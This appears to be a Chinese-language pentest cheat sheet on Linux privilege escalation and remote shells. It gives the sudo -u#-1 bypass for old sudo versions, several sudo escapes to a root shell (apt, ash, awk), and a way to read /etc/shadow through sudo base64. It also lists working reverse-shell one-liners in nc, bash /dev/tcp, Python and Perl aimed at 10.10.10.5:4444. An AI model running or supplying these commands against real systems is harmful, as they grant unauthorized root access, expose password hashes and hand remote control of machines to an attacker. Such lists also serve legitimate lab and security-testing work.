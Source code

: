 ```
	sudo -V | grep version
	
	sudo -u#-1 /bin/bash
```

> 	该漏洞使用前提为 sudo <= 1.8.28

## Sudo 提权（全）

- sudo apt

```
	sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash
```

- sudo ash

```
	sudo ash
```
- sudo awk

```
	sudo awk 'BEGIN {system("/bin/bash")}'
```

- sudo base64

```
	ATTACT=/etc/shadow
	
	sudo base64 "$ATTACT" | base64 --decode
```

## SSH 清屏

```
export TERM=xterm-256color
```

# 获得shell

```
nc -e /bin/bash 10.10.10.5 4444

bash -c "/bin/bash -i >& /dev/tcp/10.10.10.5/4444 0>&1"****

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

perl -e 'use Socket;$i="10.10.10.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```